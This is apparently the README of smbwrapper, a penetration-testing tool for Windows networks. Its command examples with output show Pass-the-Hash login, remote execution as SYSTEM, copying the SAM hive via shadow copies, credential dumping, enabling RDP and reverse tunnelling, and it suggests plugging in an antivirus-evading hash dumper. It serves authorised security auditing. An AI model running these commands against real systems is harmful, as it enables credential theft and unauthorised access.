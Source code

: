 ## SMB Wrapper ##

**smbwrapper** is a python script which provides wrappers around `smbclient` and `winexe` with added functionality and Pass-the-Hash support.

It is intended for penetration testers and security auditors who are targeting Windows/Active Directory environments.

It relies on various external tools such as slighly modified versions of `smbclient-pth`, `winexe-pth`, `xfreerdp` and `socat`. At the moment, they will **only run in Linux x64**. It should run fine in Kali 64 bits.

It also includes various windows executables that are meant to be run on targeted Windows systems, such as [socat for windows](https://github.com/jboecker/dcs-arduino-example/tree/master/socat), [MBSA](https://technet.microsoft.com/en-us/security/cc184924.aspx), [nircmd](http://nirsoft.net/utils/nircmd.html) or *runastask* (see below)

### TL;DR ##

Below are a few examples of basic usage.

Add current credentials (use password or NT hash):

	$ ./smb.py creds add MYDOMAIN\\Administrator 209C6174DA490CAEB422F3FA5A7AE634 "My Demo User"
	[*] Credentials added and marked as active.

Execute commands (use -s for LocalSystem elevation):

	$ ./smb.py exec 10.1.2.3 whoami
	mydomain\administrator

	$ ./smb.py exec -s 10.10.10.12 whoami
	nt authority\system

	$ ./smb.py exec 10.10.10.12 cmd
	Microsoft Windows [Version 6.1.7601]
	Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

	C:\Windows\system32>

Download a file locked by the system:

	$ ./smb.py vsscpy 10.10.10.12 c:\\windows\\system32\\config\\SAM /tmp/sam
	[*] Uploading script...
	[*] Running script...
	[*] Downloading file to '/tmp/sam'...
	[*] Removing temp files...
	[*] Done.

	$ file /tmp/sam 
	/tmp/sam: MS Windows registry file, NT/2000 or above

Enable RDP:

	$ ./smb.py rdp 10.10.10.12 enable
	[*] Updating Registry...
	[*] Adding firewall rule...
	[*] Success.

Open a RDP session to a host behind a firewall:

Terminal 1 - Create a reverse port forwarding tunnel

	$ ./smb.py revfwd 10.10.10.12 3389 10.10.10.13 3389
	[*] Uploading files...
	[*] Setting up local listener...
	[*] Adding firewall rule...
	[*] Success.
	[*] Creating reverse tunnel...
	[i] 10.10.10.13:3389 <--> 10.10.10.12:56789 <--> 192.168.0.1:3389
	[i] Now point your client to 192.168.0.1:3389

Terminal 2 - Connect to the local port

	$ ./smb.py rdp 192.168.0.1 RemoteUsername RemotePassword

### Help ###

	$ ./smb.py help
	smb.py v1.0.0alpha by jrm` - Run stuff remotely - Pass the Hash

	smb.py -h 				 This help
	smb.py -f <file>		 Specify an alternative credential vault

	   The following commands are currently implemented:

	   smb.py creds [ list | set | del | use ] <user> <passwd/nthash>
		Manage SMB credentials

	   smb.py exec [-s] <ip> [ user ] [ passwd/nthash ] <cmd>
		Execute a command remotely (use "cmd" for a command prompt)

	   smb.py upexec [-s] <ip> [ user ] [ passwd/nthash ] <localfile.exe [-arg1 [-argx]]>
		Upload a file and run it remotely with the specified arguments

	   smb.py upload [-s] <ip> [ user ] [ passwd/nthash ] <localfile> <remotefile>
		Upload a file to the host

	   smb.py download [-s] <ip> [ user ] [ passwd/nthash ] <remotefile> <localfile>
		Download a file from the host

	   smb.py creddump [-s] <ip> [ user ] [ passwd/nthash ]
		Extract SAM, SECURITY, SYSTEM hives and dump SAM, DCC, LSA Secrets

	   smb.py scrshot [-s] <ip> [ user ] [ passwd/nthash ]
		Takes a screenshot of the active session

	   smb.py vsscpy [-s] <ip> [ user ] [ passwd/nthash ] <remotefile> <localfile>
		Use shadow copies to download a locked file from the host

	   smb.py fwrule [-s] <ip> [ user ] [ password ] <add | del> <program path | port number>
		Create or remove a rule in the Windows firewall

	   smb.py mount <ip> [ user ] [ password ] <share> <localpath>
		Mount a remote share locally via CIFS (Pass-the-Hash not available)

	   smb.py rdp <ip> [ user ] [ passwd/nthash ] [ enable | disable ]
		Open a Remote Desktop session using xfreerdp (Pass-the-Hash = restricted admin)

	   smb.py portfwd [-s] <ip> [ user ] [ passwd/nthash ] <lport> <rhost> <rport>
		Forward a remote port to a remote address

	   smb.py revfwd [-s] <ip> [ user ] [ passwd/nthash ] <lport> <rhost> <rport>
		Reverse-forward a remote address/port locally

	   smb.py mbsa [-s] <ip> [ user ] [ passwd/nthash ]
		Run MBSA on the remote host

	   smb.py hash <plaintext>
		Generate a NTLM hash from a plaintext

	   If the command supports it, use the '-s' option to attempt remote LocalSystem elevation.

	   Instead of using username+password or username+hash on the commandline,
	   you can use the smb.py creds command to populate the credential vault.

	   Usernames must be specified using the DOMAIN\LOGIN syntax.

	   See usage examples at: https://github.com/jrmdev/smbwrapper/blob/master/README.md

### Credential management ###

For each command, you can specify the credentials to use on the command line. However, if you choose not to, you can maintain a credential vault.

The `smb.py creds` command allows to view and edit a credential vault in an sqlite database. It is mostly useful when working in an Active Directory environment so that you can retain the domain administrator's credentials across multiple runs without the hassle to specify them on the command line. It also makes to tool more easier and effective to work with.

**Disclaimer:** The credentials are stored in clear-text in the sqlite db. Feel free to use NTLM hashes instead of passwords, or not to use this feature at all.

### Writing a quick extension ###

The way **smbwrapper** is designed enables it to be extensible very easily. Just create your own function at the end of the script with a name starting by "smb_".

For example, if you want it to support your *super-cool custom-made antivirus-bypassing* hash dumper program, you would add such a function:

	def smb_hashdump():
		"""
		[-s] <ip> [ user ] [ password | ntlm_hash ]
		Dumps remote password hashes using my prog.
		"""

		set_creds(4)
		check_creds()
		print up_and_exec(['/path/to/my/prog.exe', '--dump'])

And then run `smb.py hashdump 1.2.3.4`. That's all you need to do.

`set_creds()` parameter is the minimum length that `sys.argv` can have for the credentials to be read from the vault. If `sys.argv` length is bigger, credentials will be read from the command-line.

`check_creds()` is optional but will prevent running further commands if the credentials don't work.

*Note:* You could also simply run `smb.py upexec 1.2.3.4 /path/to/my/prog.exe --dump` but creating your own function enables you to add extra functionality easily and can be useful to parse and reuse the output.

### Tools included ###

`runastask` was developed specifiaclly for `smbwrapper`. It allows to run a GUI program from a non-console session by creating a one-time scheduled task.

It is useful for commands that need access to the user's desktop, such as `smb.py scrshot`. It takes the username to run the task with as an argument. If no matching user desktop is found, it does nothing.

`mbsacli` is the command-line version of the Microsoft Baseline Security Analyzer and is useful for reporting missing patches.

`nircmd` is a tool from NirSoft that allows to perform multiple tasks on windows hosts. For the moment it is basically used to take screenshots along with `runastask`.

`vsscpy.vbs` is a Visual Basic script used to copy locked files by making use of shadow volumes.

`socat.tar` is the tarball'ed version of socat compiled for Windows. It include some Cygwin DLL libraries.

`tar.exe` is... Guess what.

